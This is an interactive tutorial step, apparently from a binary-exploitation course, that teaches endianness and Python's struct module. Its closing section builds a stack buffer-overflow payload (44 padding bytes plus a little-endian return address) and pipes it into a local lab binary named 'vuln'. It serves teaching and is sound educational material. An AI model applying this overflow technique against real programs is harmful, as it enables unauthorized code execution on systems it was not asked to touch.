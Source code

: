 # Endianess and struct python module

The [struct python module](https://docs.python.org/3/library/struct.html#format-characters) is a formidable library to convert python values into C-structs. One of the main usage for it, is to__ interpret bytes as packed binary data__:

## Little-Endian (LE) vs. Big-Endian (BE)

> In computing, endianness is the order or sequence of bytes of a word of digital data in computer memory. Endianness is primarily expressed as big-endian or little-endian. A big-endian system stores the most significant byte of a word at the smallest memory address and the least significant byte at the largest
> [Wikipedia](https://en.wikipedia.org/wiki/Endianness)

To illustrate, let's compare Arabic vs. English books: The first is written or read from right-to-left while the other is from left-to-right! Luckily, we don't have anything from top-to-bottom and the only alphabet we got are `0s` and `1s` ... what a relief!

Let's say that we want to write the number 134517454 (base10) in computer language. A computer only understand base2 (0s and 1s) but can easily represents bytes in base16 which will translates into 0x80492ce (base 16).

| Endiannes| representation | byte written at the highest memory address |
| --- | --- | --- |
| Little | \xce\x92\x04\x08 | least significant byte |
| Big | \x08\x04\x92\xce | most significant byte |

Most CPU chips, such as Intel (market leader) have adopted Little-Endian architecture.

## Using python struct module

Let's consider the memory address 0x2131415, How will you write it in Big-Endian? in Little-Endian?

You can use the struct module to verify your response:

type `python`{{execute}} to open a python console

import the struct module: `import struct`{{execute}}

According to the [struct documentation](https://docs.python.org/3/library/struct.html#format-characters):
- `I` or `i` means 4 bytes long
- `<` means Little-Endian
- `>` means Big-Endian:

We can combine:
- `<I` represents a number in 4 bytes Little-Endian representation
- `>I` represents a number in 4 bytes Big-Endian representation

In your python console:
- Print the address in Big-Endian: `struct.pack('>I', 0x2131415)`{{execute}}
- Print the address in Little-Endian: `struct.pack('<I', 0x2131415)`{{execute}}

You can also do the opposite and obtain the decimal value from an address represented in Little ot Big-Endian:
- `struct.unpack('<I', '\x15\x14\x13\x02')`{{execute}} for little endian to decimal memory address
- `struct.unpack('>I', '\x02\x13\x14\x15')`{{execute}} for big endian to decimal memory address

Conversion from base10 to base16 is easy: `hex(34804757)`{{execute}}


## Rewrite our previous exploit with the struct module

Let's consider the below code and execute it in the python console:

```python
import struct
offset 	= 44
rip	= struct.pack('<I', 0x80491f6)
payload = 'A'*offset + rip
print(payload)
```{{execute}}

It generates a payload for our exploitation purpose. 

Type `quit()`{{execute}} to exit the python console or press `<CTRL>D`

When we have a shell prompt but are outside a python console, We can execute with `python -c` any script in just one line of code: `python -c "import struct;offset=44;rip=struct.pack('<I', 0x80491f6);payload = 'A'*offset + rip;print(payload)"`{{execute}}

We can pipe our payload to the vulnerable command and observe whether our exploit work

`echo $(python -c "import struct;offset=44;rip=struct.pack('<I', 0x80491f6);payload = 'A'*offset + rip;print(payload)") | ./vuln`{{execute}}
